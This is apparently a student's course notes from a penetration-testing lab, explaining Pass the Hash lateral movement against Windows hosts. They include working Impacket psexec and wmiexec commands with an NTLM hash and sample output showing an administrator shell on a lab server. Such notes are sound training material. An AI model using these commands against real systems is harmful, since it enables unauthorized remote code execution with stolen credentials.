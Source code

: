 ``` PowerShell
```
+ Above confirms that we obtained an interactive shell directly on the target system as the local administrator _jen_ domain account, without involving our Kali machine to catch a reverse shell

Can also use: `impacket-psexec <USER>@<IP>`

### Pass the Hash
The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password
+ Note that this will not work for Kerberos authentication but only for servers or services using NTLM authentication
+ This lateral movement sub-technique is also mapped in the MITRE Framework under the Use Alternate Authentication Material general technique

Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including _PsExec_ from Metasploit, _Passing-the-hash toolkit_, and _Impacket_
+ The mechanics behind them are more or less the same in that the attacker connects to the victim using the _Server Message Block_ (SMB) protocol and performs authentication using the NTLM hash

Most tools that are built to abuse PtH can be leveraged to start a Windows service (for example, cmd.exe or an instance of PowerShell) and communicate with it using _Named Pipes_
+ This is done using the Service Control Manager API
+ Unless we want to gain remote code execution, PtH does not need to create a Windows service for any other usage, such as accessing an SMB share

Similar to PsExec, this technique requires an SMB connection through the firewall (commonly port 445) and the Windows File and Printer Sharing feature to be enabled
+ These requirements are common in internal enterprise environments

This lateral movement technique also requires the admin share called **ADMIN$** to be available
+ In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions
+ In other words, this type of lateral movement typically requires local administrative rights

Note that PtH uses the NTLM hash legitimately
+ However, the vulnerability lies in the fact that we gained unauthorized access to the password hash of a local administrator

To demonstrate this, we can use _wmiexec_ from the Impacket suite from our local Kali machine against the local administrator account on FILES04
+ We are going to invoke the command by passing the local Administrator hash that we gathered in a previous Module and then specifying the username along with the target IP
``` Shell
/usr/bin/impacket-wmiexec -hashes :<HASH> <USER>@<IP>
```
+ Example:
``` Shell
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES04

C:\>whoami
files04\administrator
```
+ In this case, we used NTLM authentication to obtain code execution on the Windows 2022 server directly from Kali, armed only with the user's NTLM hash
+ If the target was sitting behind a network that was only reachable through our initial compromised access, we could perform this very same attack by pivoting and proxying through the first host as learned in previous Modules
+ This method works for Active Directory domain accounts and the built-in local administrator account

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname